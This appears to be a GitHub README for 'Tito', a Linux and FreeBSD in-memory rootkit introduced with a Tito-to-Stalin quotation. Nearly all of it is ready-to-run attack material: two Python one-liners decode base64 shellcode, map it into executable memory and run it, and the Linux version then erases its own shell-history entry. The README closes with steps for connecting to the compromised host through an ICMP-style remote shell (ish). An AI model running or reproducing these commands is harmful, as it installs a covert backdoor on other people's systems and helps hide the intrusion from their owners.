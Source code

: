 # Tito
An In-Memory Rootkit For Linux

<h2>From Tito to Stalin:</h2>

"Stop sending people to kill me. We’ve already captured five of them, one of them with a bomb and another with a rifle. If you don’t stop sending killers, I’ll send one to Moscow, and I won’t have to send a second."

You can run the entire rootkit from the Linux command-line like so:

```
python3 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp9////0iNBe////9Iu6ajGtSlB5bkSDFYJ0gt+P///+L07hs1tsxpuZfOo4OE8VjEgs6OeYD7VX75pqMa+81o+4GJ03LnlnW5rfXrX5jpKuDUiJE1vdZv8uTw9E6KzzzO66OjGtSlB5bk"; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("... and I won’t have to send a second."); shell_func()' && history -d $(history | awk 'END { print $1 }')
```

With FreeBSD, it will depend on the version of python installed. If you have python3.11 you can just use this:

```
python3.11 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp+P///0iNBe////9Iu67h2fdth+YDSDFYJ0gt+P///+L05tALH0+H5gOBibaaCKiWa53Sq9gZ7pJsgaiKvyjLqi7Y0ffEQu6Va8rhhqU6z2/l5tAZv+5P3Qyr4dn3bYfmAw=="; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("...and I will not have to send a second."); shell_func()' 2>/dev/null
``` 

From there you may go into the ISHELL-v0.3 folder and type 'make linux' or 'make bsd' to build ish. Then you may run ish with the ip of the device the rootkit was ran on to connect.

Currently tested on x86_64 Debian Trixie and FreeBSD 14.1
